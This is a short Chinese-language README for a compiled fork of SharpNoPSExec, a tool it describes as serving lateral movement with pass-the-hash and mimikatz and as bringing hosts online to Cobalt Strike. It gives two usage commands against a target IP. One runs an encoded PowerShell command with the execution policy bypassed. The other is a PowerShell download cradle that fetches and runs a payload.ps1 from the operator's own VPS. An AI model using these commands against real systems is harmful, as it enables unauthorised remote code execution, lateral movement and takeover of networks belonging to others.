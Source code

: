 # SharpNoPSExec

- fork from https://github.com/juliourena/SharpNoPSExec

- 上面那个项目是用来横向移动PTH的，配合mimikatz，可以直接执行命令（比如powershell 上线cs），而不像一般建立IPC$，然后复制文件到目标上执行
- 原项目未编译，这里给他编译下
- 局限性：只能在.net 4.0下运行
![image](https://user-images.githubusercontent.com/51697332/141228831-bd18fb77-9fe9-4466-a8ba-7c1588199ba4.png)
```
SharpNoPSExec.exe --target=192.168.0.2 --payload="c:\windows\system32\cmd.exe /c powershell -exec bypass -nop -e ZQBjAGgAbwAgAEcAbwBkACAAQgBsAGUAcwBzACAAWQBvAHUAIQA="
SharpNoPSExec.exe --target=192.168.0.2 --payload="c:\windows\system32\cmd.exe /c powershell -nop -c iex(New-Object Net.WebClient).DownloadString('http://你的vps:80/payload.ps1')"
```
